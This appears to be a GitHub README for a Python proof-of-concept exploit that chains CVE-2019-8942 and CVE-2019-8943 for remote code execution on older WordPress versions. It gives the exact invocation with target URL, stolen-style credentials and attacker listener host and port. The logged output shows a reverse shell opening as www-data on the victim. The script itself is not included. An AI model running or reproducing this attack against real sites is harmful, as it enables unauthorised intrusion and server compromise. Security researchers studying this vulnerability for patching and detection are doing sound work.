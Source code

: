 ## WordPress 5.0.0 Crop-image Remote Code Execution
### Description
The exploit code leverages the [CVE-2019-8943](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2019-8943) and [CVE-2019-8942](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-8942/) vulnerabilities to gain remote code execution on WordPress 5.0.0 and <= 4.9.8.

### Usage

```
root@kali:~# python3 poc.py --url http://mysite.com -u kwheel -p qwerty -lhost 10.10.6.2 -lport 443
[*] Authenticating to wordpress
[+] Login successful
[*] Uploading image
[+] Image uploaded
[*] Updating image
[*] Including image into theme
[*] Creating post
[*] Starting listener on 443
[*] Executing reverse shell
bash: cannot set terminal process group (921): Inappropriate ioctl for device
bash: no job control in this shell
www-data@blog:/var/www/wordpress$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### References:
[https://blog.sonarsource.com/wordpress-image-remote-code-execution/](https://blog.sonarsource.com/wordpress-image-remote-code-execution/)

[https://www.youtube.com/watch?v=6Sxs4vQJK\_s](https://www.youtube.com/watch?v=6Sxs4vQJK_s)
